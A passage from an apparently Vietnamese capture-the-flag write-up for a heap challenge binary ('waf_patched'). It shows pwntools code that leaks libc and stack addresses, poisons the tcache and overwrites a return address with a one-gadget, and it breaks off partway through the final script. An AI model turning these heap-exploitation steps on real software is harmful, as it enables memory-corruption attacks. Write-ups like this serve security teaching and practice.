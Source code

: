 Khi đó `add(1,0x18,...)` sẽ có `FireWall 1`.setting = `FireWall 0`.

Leak libc, stack:

```python 
add(1,0x18,p64(0x1337)+p64(e.got.free))
view(0)
p.recvuntil(b"Setting: ")
libc.address = u64(p.recv(6)+b"\0\0") - libc.sym.free
log.success(f"libc @ {hex(libc.address)}")

edit(1,1,0x18,p64(0x1337)+p64(libc.sym.environ))
view(0)
p.recvuntil(b"Setting: ")
stack = u64(p.recv(6)+b"\0\0")
log.success(f"stack: {hex(stack)}")
ret_addr = stack-0x230
```

Do hàm `edit_config` sử dụng `realloc` nên ta không thể ghi đè `FireWall 0`.setting là địa chỉ stack rồi sửa được.
```c
unsigned __int64 __fastcall edit_config(FireWall **a1, int idx)
{
...
  v3->setting = (char *)realloc(v3->setting, n);
  printf("What is the new setting?: ");
  fgets(a1[idx]->setting, n, stdin);
...
}
```

Ta lại sửa `tcahe entry` thành địa chỉ stack từ đó hàm `add_config` sẽ cho ta ghi đè stack.
```python
add(2,0x258,b"2"*8)
p.sendline(b"4")
edit(2,0,0x250-8,p8(0)+p8(1)+p8(0)*33+p8(0)+p8(0)*(64-36)+p64(0)+p64(ret_addr-8))
add(2,0x28,p64(0)+p64(libc.address+0x4f302))
p.interactive()
```

Final script:
```python
from pwn import *
from time import sleep

context.binary = e = ELF("./waf_patched")
libc = ELF("./libc.so.6")
gs="""
# b *0x0000000000400CF4
# b *0x0000000000400C6B
# b *0x0000000000400FD8
# b *0x0000000000401262
b *0x0000000000400D9E
"""
def start():
	if args.LOCAL:
		p=e.process()
		if args.GDB:
			gdb.attach(p,gdbscript=gs)
			pause()
	elif args.REMOTE:
		p=remote(args.HOST,int(args.PORT))
	return p

p = start()
def add(id_: int,size: int,setting: bytes, active: bool = True):
```